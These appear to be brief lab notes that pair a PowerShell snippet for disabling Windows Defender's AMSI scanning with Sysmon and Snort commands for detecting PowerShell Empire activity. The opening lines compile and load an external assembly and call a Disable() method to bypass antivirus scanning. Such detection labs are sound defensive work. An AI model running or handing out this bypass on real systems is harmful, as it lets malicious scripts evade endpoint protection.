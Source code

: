 
#Bypass Defender AV AMSI.dll

Add-Type -TypeDefinition ([IO.File]::ReadAllText("$pwd\Source.cs")) -OutputAssembly "Source.dll"
[Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\\Source.dll"))
[BP.AMS]::Disable()


#detect powershell using sysmon and wazuh

Sysmon64.exe -accepteula -i sysconfig.xml

Snort command line:

analyze pcap with snort
snort -c /usr/local/etc/snort/snort.lua -r /home/sysadmin/pcap/http_powershell_empire.pcap -Acmg -k none -q # check packets processing by snort.

![image](https://user-images.githubusercontent.com/92370823/148438040-ae3a9a3f-17fe-4987-83e4-d44f7ae87e39.png)

